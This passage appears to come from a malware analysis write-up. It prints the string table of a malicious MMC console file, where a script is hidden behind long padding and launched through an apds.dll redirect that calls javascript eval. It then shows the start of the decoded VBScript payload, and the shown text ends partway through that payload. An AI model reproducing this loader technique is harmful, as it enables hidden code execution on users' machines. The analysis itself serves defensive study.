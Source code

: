```xml
	// &#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;
	
	var scopeNamespace = external.Document.ScopeNamespace;
	var rootNode = scopeNamespace.GetRoot()
	var mainNode = scopeNamespace.GetChild(rootNode)
	var docNode = scopeNamespace.GetNext(mainNode)

	external.Document.ActiveView.ActiveScopeNode = docNode
	docObject = external.Document.ActiveView.ControlObject
	external.Document.ActiveView.ActiveScopeNode = mainNode

	var XML = docObject;
	XML.async = false
	var xsl = XML;

	xsl.loadXML(unescape("#URL ESCAPED TEXT#"))

	XML.transformNode(xsl)
	</String>
	<String ID="23" Refs="2">Document</String>
	<String ID="24" Refs="1">{2933BF90-7B36-11D2-B20E-00C04F983E60}</String>
	<String ID="38" Refs="2">Main</String>
	<String ID="39" Refs="1">res://apds.dll/redirect.html?target=javascript:eval(external.Document.ScopeNamespace.GetRoot().Name)</String>
	</Strings>

</StringTable>
```

Decoding the URL-escaped text in CyberChef revealed XML data containing malicious VBScript.
```vbscript
Function Stream_StringToBinary(Text)
  Const adTypeText = 2
  Const adTypeBinary = 1
  Dim BinaryStream
  Set BinaryStream = CreateObject("ADODB.Stream")
  BinaryStream.Type = adTypeText
  BinaryStream.CharSet = "us-ascii"
  BinaryStream.Open
  BinaryStream.WriteText Text
  BinaryStream.Position = 0
  BinaryStream.Type = adTypeBinary
 BinaryStream.Position = 0
 Stream_StringToBinary = BinaryStream.Read
 Set BinaryStream = Nothing
End Function

Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
```